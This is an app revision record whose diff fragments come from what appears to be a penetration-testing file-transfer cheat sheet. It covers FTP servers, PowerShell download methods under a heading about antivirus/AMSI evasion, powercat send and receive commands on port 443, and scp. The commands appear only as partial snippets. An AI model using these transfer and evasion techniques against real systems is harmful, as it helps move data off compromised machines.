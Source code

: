 id: 4489e17c4e9e4bb99e80c13c4b546781
parent_id: 312934c450ca434786ab012f19f34400
item_type: 1
item_id: b106972e6c2c4924a1c18862645e70ab
item_updated_time: 1650470288130
title_diff: "[{\"diffs\":[[0,\"ng Files\"],[1,\"\\\r\"]],\"start1\":10,\"start2\":10,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\" System:\"],[-1,\" \"],[0,\"\\\n\\\nGenera\"]],\"start1\":32,\"start2\":32,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"Options:\"],[-1,\" \"],[0,\"\\\n\\\n\"],[1,\"# \"],[0,\"FTP:\\\n\\\nIn\"]],\"start1\":50,\"start2\":50,\"length1\":19,\"length2\":20},{\"diffs\":[[0,\"ftpdlib\\\n\"],[1,\"\\\n\"],[0,\"- pip3 i\"]],\"start1\":78,\"start2\":78,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"re-ftpd\\\n\"],[1,\"\\\n\"],[0,\"- sudo a\"]],\"start1\":115,\"start2\":115,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"access)\\\n\"],[1,\"\\\n\"],[0,\"- Python\"]],\"start1\":216,\"start2\":216,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"-w\\\n\\\n\"],[1,\"# \"],[0,\"Web:\"],[-1,\" \"],[0,\"\\\n\\\n- \"]],\"start1\":254,\"start2\":254,\"length1\":13,\"length2\":14},{\"diffs\":[[0,\" start\\\n\\\n\"],[1,\"# \"],[0,\"Powershe\"]],\"start1\":312,\"start2\":312,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"ershell:\"],[-1,\" \"],[0,\"\\\n\\\nRaw (W\"]],\"start1\":325,\"start2\":325,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"V/AMSI):\"],[-1,\" \"],[0,\"\\\n\\\n- powe\"]],\"start1\":361,\"start2\":361,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"\\\"C:\\\\\"],[1,\"\\\\\"],[0,\"path\\\\\"],[1,\"\\\\\"],[0,\"file\\\"\\\n\\\n\"],[-1,\"\\\n\"],[1,\"# \"],[0,\"Use \"]],\"start1\":540,\"start2\":540,\"length1\":21,\"length2\":24},{\"diffs\":[[0,\"owercat:\"],[-1,\" \"],[0,\"\\\n\\\nSend F\"]],\"start1\":565,\"start2\":565,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"\\\nSend File:\\\n\"],[-1,\"    \"],[0,\"powercat -c \"]],\"start1\":574,\"start2\":574,\"length1\":28,\"length2\":24},{\"diffs\":[[0,\"p 443 -i C:\\\\\"],[1,\"\\\\\"],[0,\"inputfile\\\nRe\"]],\"start1\":608,\"start2\":608,\"length1\":24,\"length2\":25},{\"diffs\":[[0,\"e File:\\\n\"],[-1,\"    \"],[0,\"powercat\"]],\"start1\":637,\"start2\":637,\"length1\":20,\"length2\":16},{\"diffs\":[[0,\" -of C:\\\\\"],[1,\"\\\\\"],[0,\"inputfil\"]],\"start1\":664,\"start2\":664,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"le\\\n\\\n\"],[1,\"# \"],[0,\"Linux:\"],[-1,\" \"],[0,\"\\\n\\\nscp:\"],[-1,\" \"],[0,\"\\\n\\\n- scp \"],[1,\"\\\\\"],[0,\"[OPTION\"],[1,\"\\\\\"],[0,\"] \"],[1,\"\\\\\"],[0,\"[user@\"],[1,\"\\\\\"],[0,\"]SRC\"],[1,\"\\\\\"],[0,\"_HOST:\"],[1,\"\\\\\"],[0,\"]file1 \"],[1,\"\\\\\"],[0,\"[user@\"],[1,\"\\\\\"],[0,\"]DEST\"],[1,\"\\\\\"],[0,\"_HOST:\"],[1,\"\\\\\"],[0,\"]fil\"]],\"start1\":680,\"start2\":680,\"length1\":79,\"length2\":89},{\"diffs\":[[0,\"ugh ssh:\"],[-1,\" \"],[0,\"\\\n\\\n- scp \"]],\"start1\":781,\"start2\":781,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" system:\"],[-1,\" \"],[0,\"\\\n\\\n- scp \"]],\"start1\":889,\"start2\":889,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"ectory\\\n\\\n\"],[-1,\"\\\n\"],[0,\"# Servic\"]],\"start1\":959,\"start2\":959,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" target:\"],[-1,\" \"],[0,\"\\\n\\\n- Simp\"]],\"start1\":1030,\"start2\":1030,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"4938\"],[-1,\"\\\n    \"]],\"start1\":1118,\"start2\":1118,\"length1\":9,\"length2\":4}]"
metadata_diff: {"new":{},"deleted":["user_updated_time"]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-20T16:05:12.616Z
created_time: 2022-04-20T16:05:12.616Z
type_: 13